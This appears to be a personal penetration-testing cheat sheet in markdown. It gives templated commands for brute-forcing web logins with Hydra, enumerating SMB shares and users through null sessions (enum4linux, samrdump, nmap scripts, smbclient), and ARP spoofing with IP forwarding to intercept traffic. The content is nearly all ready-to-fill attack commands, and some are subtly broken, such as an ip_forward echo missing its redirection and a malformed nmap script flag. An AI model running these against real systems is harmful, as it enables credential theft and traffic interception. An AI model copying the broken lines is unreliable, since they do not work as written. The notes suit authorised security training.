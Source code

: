 
## Hydra Bruteforce
- -l = single user
- -L = user list
- -p = single password
- -P = password list
- -f = exit after successful login

### HTTP Form
`hydra {url} http-post-form "{url endpoint e.g. /login.php}:user=^USER^&pass=^PASS^:{rejected credentials e.g. invalid credentials" -l {username} -P {list} -f`  

---
---

## SMB NULL Session
- -n = nmblookup
- -P = enumerate password policy
- -S = enumerate shares

`enum4linux -n {target}`  
`enum4linux -P {target}`  
`enum4linux -S {target}`  

samrdump (Impacket) with no auth to dump SAM data and get usernames:  
`samrdump.py {target}`  

nmap can enum and exploit smb shares also:  
`nmap -script=smb-enum-shares {target}`  
`nmap -script=smb-enum-users {target}`  
`nmap -script-smb-brute {target}`  

## Alternatives
nbtstat:  
`nbtstat -A {target}`
- <00> signifies a workstation
- <20> signifies file sharing service is active 

smbclient:  
`smbclient -L //{target} -N`

---
---

## IP forwarding & ARP Spoofing
Enable ip_forwarding to pass packets, remain stealthy and prevent inadvertent DDoS of the network:  
`echo 1 /proc/sys/net/ipv4/ip_forward`  

Then setup arpspoof on the designated interface between a target and client machine on the network to send unsolicited arp replies (e.g. SSH server and domain workstation):  
`arpspoof -i {interface} -t {target} -r {client}`
